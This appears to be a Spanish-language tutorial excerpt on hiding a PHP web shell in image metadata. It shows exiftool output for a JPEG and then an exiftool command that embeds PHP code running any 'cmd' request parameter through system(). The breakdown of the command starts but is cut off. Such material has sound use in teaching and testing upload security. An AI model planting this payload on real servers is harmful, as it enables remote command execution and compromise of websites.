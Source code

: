 ```java
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Profile CMM Type                : Little CMS
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 2012:01:25 03:41:57
Profile File Signature          : acsp
Primary Platform                : Apple Computer Inc.
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : 
Device Model                    : 
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Little CMS
Profile ID                      : 0
Profile Description             : sRGB MozJPEG
Profile Copyright               : PD
Media White Point               : 0.9642 1 0.82491
Media Black Point               : 0.01205 0.0125 0.01031
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Red Tone Reproduction Curve     : (Binary data 64 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 64 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 64 bytes, use -b option to extract)
Image Width                     : 2560
Image Height                    : 1440
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:2 (2 1)
Image Size                      : 2560x1440
Megapixels                      : 3.7
```


El payload es el siguiente:

```bash
exiftool -DocumentName="<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" imagen.jpg
```

Desglose del Comando: 

 1. `exiftool`
- **Herramienta**: `exiftool` es una herramienta de línea de comandos para leer, escribir y editar metadatos en archivos multimedia (como imágenes, videos y audio).

